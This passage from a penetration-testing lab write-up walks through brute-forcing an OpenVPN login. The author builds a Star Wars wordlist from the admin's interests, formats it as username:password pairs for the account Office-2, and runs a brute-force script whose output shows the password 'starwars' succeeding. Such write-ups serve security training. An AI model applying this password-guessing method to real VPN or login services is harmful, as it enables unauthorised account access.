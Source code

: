 Once the server configuration is saved and edited, we can then build our wordlist. We already know that our admin is a huge fan of Star Wars, so I decided to look up a [Star Wars Wordlist](https://www.wordnik.com/lists/star-wars-words) and copied them to a file called __starwars\_wordlist__.

```console
root@kali:~/pentestit# ls
lab.pentestit.ru.conf  openvpn_brute_force.sh  tech.key
Office-2.conf          starwars_wordlist
root@kali:~/pentestit# head starwars_wordlist 
jediacademy
darksaber
Podracing
moseisley
ewoks
echobase
tauntaun
landocalrissian
bailorgana
Buzzdroid
```

We are going to use these words for our passwords since we already know that the username for the server configuration is __Office-2__. Thus we need to create a list consisting of __username:password__ combinations. 

So let's run the following command to append __Office-2:__ to each of the words.

```console
root@kali:~/pentestit# echo "starwars" >> starwars_wordlist 
root@kali:~/pentestit# echo "princessleia" >> starwars_wordlist
root@kali:~/pentestit# while read l; do echo "Office-2:"$l >> openvpn_dictionary; done < starwars_wordlist 
root@kali:~/pentestit# head openvpn_dictionary 
Office-2:jediacademy
Office-2:darksaber
Office-2:podracing
Office-2:moseisley
Office-2:ewoks
Office-2:echobase
Office-2:tauntaun
Office-2:landocalrissian
Office-2:bailorgana
Office-2:buzzdroid
```

Awesome! We have our brute force dictionary, and our server configuration! All that there is left to do is run the script and see if we can login!

```console
root@kali:~/pentestit# ./openvpn_brute_force.sh 
Kullanim: ./openvpn_brute_force.sh <dict_file> <vpn_config_file>
root@kali:~/pentestit# ./openvpn_brute_force.sh openvpn_dictionary Office-2.conf 
Office-2:jediacademy -> FAILURE
Office-2:darksaber -> FAILURE
Office-2:podracing -> FAILURE
Office-2:moseisley -> FAILURE
Office-2:ewoks -> FAILURE
Office-2:echobase -> FAILURE
---snip---
Office-2:sith -> FAILURE
Office-2:knight -> FAILURE
Office-2:jedi -> FAILURE
Office-2:force -> FAILURE
Office-2:starwars -> SUCCESS
Office-2:princessleia -> FAILURE
```
